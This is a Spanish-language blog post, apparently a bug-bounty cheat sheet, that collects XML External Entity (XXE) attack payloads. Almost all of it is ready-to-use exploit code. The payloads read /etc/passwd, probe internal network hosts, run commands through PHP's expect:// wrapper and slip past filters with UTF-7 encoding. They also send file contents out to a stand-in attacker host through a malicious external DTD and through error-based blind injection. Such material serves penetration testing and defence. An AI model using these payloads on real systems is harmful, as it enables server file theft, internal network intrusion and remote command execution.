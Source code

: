 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Algo metodos de inyectar una XXE.

# Table of Contents
1. [Peligros en los ataques XXE](#PeligrosXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE a LFI](#XXEaLFI)<br>
   2.2. [XXE a SSRF](#XXEaSSRF)<br>
   2.3. [XXE a RCE](#XXEaRCE)
6. [Blind en peticion](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### 1- Peligros en los ataques XXE <a name="PeligrosXXE"></a>
- **Enumerar puertos y dominios en direcciones internas a la red:**<br>
A través de las peticiones ir enumerando la red<br>
Ejemplo: 
[XXE a SSRF](#XXEaSSRF)

- **Enumerar puertos abiertos en otras direcciones extrernas**<br>
 Hacer una enumeracion de puertos mediante peticiones.
 
- **Exfiltrar informacion critica:**<br>
Seria posible obtener archivos internos del servidor incluso en servicios de la red local, lo cual es peligroso.<br>
Ejemplo: 
[XXE a LFI](#XXEaLFI)
- **Denegacion del servicio**
- **Ejecutar codigo:** <br>
Si el servidor dispone del modulo "expect" de PHP, seria posible ejecutar codigo y poder llegar a poder ejecutar comandos.<br>
Ejemplo: 
[XXE a RCE](#XXEaRCE)

---
### 2- XXE payloads <a name="XXEpayloads"></a>
**2.1- LFI Test** <a name="XXEaLFI"></a><br>
Ver archivos internos del servidor

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**2.2- XXE a SSRF** <a name="XXEaSSRF"></a><br>
Enumerar la red local del servidor
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**2.3-XXE a RCE** <a name="XXEaRCE"></a><br>
Abusando del modulo expect de php para ejecutar comandos
(Se requiere tener este modulo en el servidor)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```

---

### 3- XXE blind en peticion <a name="BlindXXE"></a>
**3.1- Ver si existe una XXE sin que se vea en la peticion**

Una forma de identificar una XML blind en una petición: Si la aplicación incrusta los datos enviados en un documento XML y luego se analiza el documento como pasa en una solicitud SOAP de backend. Podemos probar a inyectar XInclude que es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos.<br>
Ejemplo:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **3.2- Tambien se podria usar esto en caso de que sea blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://web-atacante.com"/></foo>&storeId=1
```

**3.3- Blind XXE test (Cuando no devuelve valores)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdominio.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### 4- XXE bypass <a name="XXEBypass"></a>
**4.1- XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://web-atacante.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**4.2- Access Control bypass (cargando datos confidenciales)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://web-vulnerable.com/config.php">]>
<foo><result>&cargar;</result></foo>
```

---

### 5- Ataques XXE Out-Of-Band: <a name="OutOFBand"></a>

**5.1- EJEMPLO 1**
- Se inyecta en el valor &xxe; en uno de los valores xml que se envian
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://web-atacante.com"> ]>
```

**5.2- EJEMPLO 2**
- Payload que incluiremos completo en el valor xml que se envia. Hará una peticion a la web del atacante, asi podremos saber si realmente procesa la informacion que le mandamos.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com"> %xxe; ]>
```

**5.3- EJEMPLO 3**
- Este codigo es de http://web-atacante.com/cositas.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- Inyeccion XML antes de los valores de la pagina, inyectará el codigo de cositas.dtd en la pagina

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.4- EJEMPLO 4**
- XXE BLIND basado en mensaje de error
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///estonoexiste/%file;'>">
%eval;
%error;
```

- Inyeccion XML en la pagina, inyectará el codigo de cositas.dtd 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.5- EJEMPLO 5**
- Explotando una XXE abusando de los archivos DTD del sistema, en el archivo llama a ISOamso, usaremos esa variable para explotar la XXE creando un xml personalizado que realice la funcion de llamar al archivo de /etc/passwd que es el objetivo. 

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///estonoexiste/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;errormensaje;
'>%el_dtd;]>
```
